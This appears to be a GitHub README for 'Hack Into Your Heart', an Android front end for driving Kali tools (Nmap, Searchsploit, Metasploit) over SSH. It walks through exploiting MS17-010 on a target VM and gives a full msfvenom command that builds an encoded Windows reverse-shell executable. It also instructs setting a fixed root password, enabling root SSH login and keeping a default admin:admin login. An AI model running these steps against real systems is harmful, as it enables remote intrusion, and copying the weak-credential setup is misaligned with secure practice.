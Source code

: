 # Hack Into Your Heart

**This tool is only use for academic and educational.If someone use this tool causes any loss to others, I will not take any responsibility.**

You must change root password to !ROOTER and open SSH root permissions.

Download:
```
git clone https://github.com/aifred0729-TW/hack_into_your_heart.git
```

## Usage

Install Offensive_Security on android phone or your android virtual environment.

Login page default credentials is admin:admin

Start SSH service for AI2 program connect.
Download the ms17-010.sh to /root and put the command.rc to /root, ms17-010.sh will used.
If the vulnerable VM has the MS17-010 vulnerabilities, you can run checker.py with python2 to confirm target can be exploit.
When checker.py is successful scan the vulnerable VM pipe, run send_and_execute.py with python2 to exploit the vulnerable VM.

If you no have the shell.exe, use the msfvenom to spawn one.
```
msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=<Your Local IP> LPORT=<Listen Port> -f exe -o shell.exe
```

Linux Bash:
Type the IP address of kali and type your bash command on it, than you can execute.
If you know how to use the ssh, then you should be know how to use this modulel.

Example Command:
```
ifconfig
```

Nmap Module:
Type the IP address of kali and target and setup the option then you can execute.
Scan report will below the console.


Searchsploit Module:
Type the vulnerabilities number or CMS/Service name and version.
If the input text is vulnerable, than it will show the exploit.

Metasploit Module:
Type the RHost LHost to input box and select a exploit module, then you can exploit.
For security reason, if metasploit successful remote code execution, the target will be shutdown in 3 second.
**The Target is not 100% can be exploit**


My Email:aifred0729@yahoo.com
My Facebook:https://www.facebook.com/profile.php?id=100009717251061

Try Harder!!

